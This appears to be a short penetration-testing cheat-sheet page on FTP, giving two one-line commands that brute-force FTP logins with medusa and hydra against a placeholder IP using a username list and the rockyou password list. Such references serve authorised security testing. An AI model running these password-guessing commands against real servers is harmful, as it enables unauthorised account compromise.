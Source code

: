 ```yaml
---
title: FTP
parent: Others
layout: default
nav_order: 1
---
```


medusa:\
`medusa -h IP -U usernames.txt -P /usr/share/seclists/rockyou.txt -M ftp -t 3`

hydra:\
`hydra -L usernames.txt -P /usr/share/seclists/rockyou.txt -s port ftp://IP`